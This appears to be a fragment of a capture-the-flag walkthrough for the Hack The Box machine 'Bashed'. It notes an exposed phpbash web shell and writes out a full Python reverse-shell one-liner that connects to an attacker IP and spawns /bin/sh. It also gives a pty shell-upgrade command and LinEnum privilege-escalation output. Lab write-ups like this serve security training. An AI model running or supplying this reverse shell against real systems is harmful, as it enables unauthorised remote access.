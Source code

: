 http://bashed.htb/dev/phpbash.php

## Shell Upgrade

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.39",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

## Upgrade shell

    python -c 'import pty;pty.spawn("/bin/bash")'
    

[Pimp My Shell - 5 Ways to Upgrade a Netcat Shell](https://medium.com/bugbountywriteup/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2)

## User flag

![Bashed/Screenshot_2020-03-17_at_10.45.20_AM.png](Bashed/Screenshot_2020-03-17_at_10.45.20_AM.png)

## Linux Privilege

[Privilege Escalation - Linux](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)

    [00;31m#########################################################[00m
    [00;31m#[00m [00;33mLocal Linux Enumeration & Privilege Escalation Script[00m [00;31m#[00m
    [00;31m#########################################################[00m
    [00;33m# www.rebootuser.com[00m
    [00;33m# version 0.982[00m
    
    [-] Debug Info
    [00;33m[+] Thorough tests = Disabled[00m
    
    
    [00;33mScan started at:
    Mon Mar 16 23:57:27 PDT 2020
    [00m
    
    [00;33m### SYSTEM ##############################################[00m
    [00;31m[-] Kernel information:[00m
    Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
    
    
    [00;31m[-] Kernel information (continued):[00m
    Linux version 4.4.0-62-generic (buildd@lcy01-30) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
    
    
    [00;31m[-] Specific release information:[00m
    DISTRIB_ID=Ubuntu
    DISTRIB_RELEASE=16.04
    DISTRIB_CODENAME=xenial
    DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
    NAME="Ubuntu"
    VERSION="16.04.2 LTS (Xenial Xerus)"
    ID=ubuntu
    ID_LIKE=debian
    PRETTY_NAME="Ubuntu 16.04.2 LTS"
    VERSION_ID="16.04"
    HOME_URL="http://www.ubuntu.com/"
    SUPPORT_URL="http://help.ubuntu.com/"
    BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
    VERSION_CODENAME=xenial
    UBUNTU_CODENAME=xenial
    